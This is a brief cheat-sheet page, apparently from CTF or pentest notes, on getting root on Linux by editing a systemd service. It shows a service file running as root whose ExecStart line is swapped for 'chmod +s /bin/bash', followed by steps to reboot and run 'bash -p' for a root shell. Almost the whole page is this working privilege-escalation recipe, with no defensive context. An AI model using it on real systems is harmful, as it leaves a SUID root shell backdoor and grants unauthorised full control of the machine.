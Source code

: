 ```yaml
---
title: Linux `.services` 😜
---
```


- Edit them to have root shell like:
  - Add the `/usr/bin/chmod +s /bin/bash`

```shell
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
#ExecStart=/root/zeno-monitoring.py
ExecStart=/usr/bin/chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
```

- Then reboot `sudo /usr/sbin/reboot`
- After this, execute `/bin/bash -p`
- Now you are **root**
